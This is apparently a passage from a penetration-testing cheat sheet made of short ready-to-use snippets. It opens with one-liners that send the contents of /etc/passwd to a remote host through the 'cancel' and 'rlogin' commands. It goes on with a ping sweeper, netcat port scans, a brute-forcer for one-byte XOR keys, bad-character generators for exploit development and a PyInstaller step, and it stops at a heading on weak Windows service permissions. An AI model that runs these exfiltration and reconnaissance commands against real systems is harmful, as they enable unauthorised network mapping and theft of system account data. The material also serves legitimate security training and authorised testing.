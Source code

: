 ### Cancel Data Exfiltration

```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```

### rlogin Data Exfiltration

```bash
rlogin -l "$(cat /etc/passwd)" -p port host
```

### Bash Ping Sweeper

```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-forcing XOR'ed string with 1 byte key in Python

```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

### Converting Python to Windows Executable \(.py -&gt; .exe\)

```csharp
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with NetCat

```csharp
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

### Exploiting Vulnerable Windows Services: Weak Service Permissions
